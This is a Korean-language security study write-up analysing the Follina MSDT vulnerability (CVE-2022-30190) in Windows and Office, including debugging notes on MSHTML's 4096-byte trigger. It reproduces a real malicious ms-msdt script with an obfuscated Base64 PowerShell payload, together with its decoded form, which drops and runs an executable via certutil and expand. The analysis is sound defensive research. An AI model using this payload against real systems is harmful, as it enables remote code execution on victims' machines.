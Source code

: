 # CVE-2022-30190 분석

# 개요

CVE-2022-30190 폴리나 취약점은 현존하는 모든 윈도 버전에 존재하며, 악성 오피스 문서를 열어보게 함으로써 익스플로잇 할 수 있다. 익스플로잇에 성공한 공격자는 피해자의 시스템을 원격에서 조정할 수 있게 된다.

- Word와 같은 호출 응용프로그램에서 URL 프로토콜을  이용하여 MSDT를 호출할 때 원격코드실행 취약점이 발견

먼저 사전에 공개되었던 보고서를 확인 해보면 아래와 같다.

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/40b48266-a83a-420c-b47e-84679c037391)

word/ _rels/ 폴더 안에는 “https://www[.]xmlformats[.]com/offic/~/RDF842l[.]html 에 대한 외부 참조가 포함된 document.xml.rels 파일이 있다.

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/e23bf17b-3191-42b0-a008-dd89d886deb6)

- document.xml.rels 내용

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/365e294f-59a9-47a3-bf5e-4e4d4021d9ba)

{임의제목}.html의 내용은 위와 같으며 ms-msdt를 실행하는 코드가 삽입되어 있다. 이러한 형태로 ms-msdt를 통해 공격자가 의도한 코드 실행이 가능하므로 다양한 공격이 가능해진다.

삽입된 코드를 하나씩 분석해보면 아래와 같다.

```
<script>
window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9yICV0ZW1wJSAlaSBpbiAoMDUtMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5leGUiOw=='+[char]34+'))'))))i/../../../../../../../../../../../../../..//Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>
```

- **window.location.href**
    - 자바스크립트에 내장된 객체로 읽거나,쓰거나, 현재 페이지를 새로고침하거나 다른 페이지로 이동을 한다.
- **ms-msdt**
    - (Microsoft Support Diagnostic Tool) MSDT 실행을 하기위한 프로토콜
- **/id PCWDiagnostic**
    - MSDT에서 실행할 진단 ID를 지정한다.
- **/skip force**
    - MSDT 실행 시 강제로 진행하는 과정을 건너뛰도록 설정한다. 이 경우 "force" 옵션을 사용
- **/param**
    - MSDT에 전달할 추가 매개 변수를 지정한다. 이 경우 **`IT_RebrowseForFile`**, **`IT_LaunchMethod`**, **`IT_SelectProgram`**, **`IT_BrowseForFile`** 매개 변수가 지정된다.
        - **`IT_RebrowseForFile`**: 파일 선택 대화상자에서 파일을 다시 선택할 수 있는 옵션입니다. **`cal?c`** 값은 파일 선택 대화상자에서 특정 파일 형식을 필터링하는 것으로 보입니다.
        - **`IT_LaunchMethod`**: 애플리케이션을 실행하는 방법을 지정합니다. 이 경우 "ContextMenu"을 사용하여 오른쪽 마우스 버튼으로 실행하는 것을 의미합니다.
        - **`IT_SelectProgram`**: 실행할 프로그램을 사용자가 지정할 수 없는 경우 "NotListed" 값을 사용하여 선택 목록에서 프로그램을 제거합니다.
        - **`IT_BrowseForFile`**: 파일 선택 대화상자를 표시하는 옵션입니다.
- **Base64encode 복호화**
    - $cmd = "c:\windows\system32\cmd.exe";Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f /im msdt.exe";Start-Process $cmd -windowstyle hidden -ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";

**아래는 복호화 된 순서 내용이다.**

1. 프로세스 msdt.exe를 종료한다.
2. “C:\users\public\” 경로부터 05-2022-0438.rar 찾아서 1.rar 이름으로 복사한다.
3. 1.rar 에서 “TVNDRgAAAA” 문자열을 찾아서 1.t로 저장한다.
4. certutil 도구를 사용해서 1.t 파일의 내용을 저장한다. 그리고 디코딩된 결과를 1.c 파일에 저장한다.
5. 1.c CAB 파일을 현재 디렉터리로 확장 하고 마지막으로 다음을 수행한다.
6. rgb.exe 실행(아마 1.c CAB 파일 내부에 압축됨)
    1. reg.exe의 영향은 구체적으로 알려지지 않았지만 중요한 점은 이것이 단 한번의 클릭으로 악성 행위 코드 실행이 된다.

# 취약점 분석

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/f8a0d518-89a2-4bcc-85f9-908a19f1a745)

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/59dc9339-ae20-45b9-9b05-953992a8c622)

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/8b332e5a-fda7-4bdc-a92b-22d5409a4ae1)

현재 CVE 취약점을 이용해 악의적인 <Script> 임의 실행 코드를 만드는 과정이다.

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/2160d1df-bec2-49ba-807f-2f17b1837802)


문서를 실행하면 임의 코드 (”calc.exe”) 실행이 된다.

결과부터 작성하였지만 과정을 조금 더 상세히 작성하면

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/7dc7dd1f-8157-425f-b4e1-215e5b92164d)

http://192.168[.]1.213:9999/index.htm[l](http://192.168.1.213:9999/index.html) 패키지 외부의 리소스를 참조한다.

문제 접근 방식은 아래와 같다.

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/7dc7dd1f-8157-425f-b4e1-215e5b92164d)

Context 내부를 사용하여 관련 작업을 찾는다. Javascript의 실행을 살펴보고 있었기 때문에 “script” 단어가 포함된 작업을 찾아 본다.

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/74798862-4037-48a3-82ef-979ad3d6c719)

- **mshtml**.**dll** 파일의 기능은 HTML로 이루어진 웹 소스를 화면에 뿌려줄때 사용되는 DLL 파일이다.

**현재 패치가 되어서 1-day 환경을 구성해서 분석이 힘든 상황이다. 그래서 아래의 글을 참고하면 된다.**

[Unpacking CVE-2021-40444: A Deep Technical Analysis of an Office RCE Exploit](https://billdemirkapi.me/unpacking-cve-2021-40444-microsoft-office-rce/)

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/79b7236c-79d5-4156-8dd6-5be2008d80bd)

현재는 분석 내용처럼 피들러를 확인한 결과 4096 확인 할 수가 없었다.

## 취약점 분석 과정 요약

1. Windows에서 HTML 처리를 담당하는 기본 모듈은 “Microsoft HTML 뷰어”인 MSHTML.DLL 이다.HTML 렌더링에서 Javascript 실행에 이르기 까지 거의 모든 것이 포함되어 있기 때문에 바이너리 크기만 해도 22MB 이다. 예를 들어 Microsoft는 Internet Explorer(및 Word)에서 사용되는 이 바이너리에 자체 JavaScript 엔진을 가지고 있다.
2. 취약점에서 발생되는 Context 내에 Javascript 실행이 되기 때문에 Jscript9.dll 스택 구조를 Procmon을 통해 확인
3. jscript9.dll 모듈 로드의 스택 추적을 하면 mshtml.dll 참조하는 것을 알 수 있다.
4. mshtml.dll IDA Pro를 통해 “PostManExecute” 함수가 실행 되기 위한 1차 관문이다. Payload 실행하면 성공 시에는 “PostManExecute” 함수가 실행이 되고, 실패 시에는 호출이 되지 않는다.
5. 호출 되지 않는 이유는 “PostManExecute”가 비동기 스레드에서 호출되는 콜백의 결과인 것처럼 보인다.
6. 비동기 디스패치인 CDwnChan::OnMethodCall 직후에 호출되는 함수에 대한 상호 참조를 살펴보면 CDwnChan::Signal이라는 다른 함수에서 참조 하고 있다.
7. “_GWPostMethodCallEx” 함수 대한 참조를 보면 HTML 처리와 관련된 것을 모두 볼 수 있다.
8. Terminate 함수를 호출하는 CDwnBindData::Read 함수를 디버깅했을 때 CDwnStm::Read에 대한 호출이 성공 경로에서 작동했지만 실패 경로에서 오류를 반환하는 것을 발견
9. 4096 값이 다른 개체 생성자인 CEncodeReader::CEncodeReader 내부에 설정되었다. 이 생성자는 방금 연결한 CHtmPre 생성자에 의해 인스턴스화 되었는데 그때 4096은  **CHtmPre 생성자에 하드코딩되어 있었다.**
10. 공격자의 Payload 작동한 이유는 크기가 4096바이트 이상이었기 때문이다.

## 취약점 이해

윈도우에서 HTML 처리(MSHTML.dll)하는 과정이 미흡하여 [4096] 크기가 고정되어 있어, 그 이상의 값을 전송하면 Payload가 실행되지만, 그 이하 값은 Payload 실행이 되지 않고 종료됩니다. 그래서 Word에서 HTML <script> 코드를 참조할 때 더미값 4096개 이상을 준 이유도 Payload를 실행시키기 위해서 더미값을 4096 만큼 주었고, 그 후 임의 코드로 실행시켰습니다.

# 용어

**MSDT는 Windows 운영체제에서 발생할 수 있는 문제를 진단하고 해결하는 도구**

**ms-msdt는 Microsoft Support Diagnostic Tool (MSDT)를 실행하기 위한 프로토콜**

- 명령 프롬프트나 PowerShell 등에서 실행할 수 있으며, MSDT를 사용하여 문제를 진단하고 해결하는 데 사용
- Windows 운영체제에 기본적으로 내장되어 있으며, 사용자가 별도의 설치 없이 바로 사용

# 패치 내역

![image](https://github.com/Kwhitebear/Security_study/assets/99308681/31240da0-d6a7-4d11-9a36-da92d2011f91)

# 참조
  
  https://github.com/Hrishikesh7665/Follina_Exploiter_CLI
  https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug
